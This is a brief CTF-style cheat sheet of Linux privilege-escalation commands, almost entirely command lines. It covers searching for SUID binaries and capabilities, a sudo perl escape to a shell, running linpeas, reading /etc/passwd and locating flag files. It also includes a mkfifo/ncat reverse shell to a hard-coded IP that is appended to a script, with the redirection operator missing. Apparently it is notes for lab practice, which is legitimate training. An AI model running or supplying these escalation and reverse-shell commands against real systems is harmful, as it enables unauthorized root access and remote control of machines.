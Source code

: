 
```
find / -perm -u=s -type f 2>/dev/null
```

or

```
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

or do

```
sudo -l
```

or 

```
getcap -r / 2>/dev/null 
```

or run 

```
linpeas
```

To check the user 

```
cat /etc/passwd
```

To append something 

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|ncat -u 10.17.5.55 9001 >/tmp/f" /etc/copy.sh 
```

to check which reverse shell is required

```
which nc
```

To find the flag 

```
find / -name local.txt 2>/dev/null   modify local.txt as per name or do *.txt for all
```

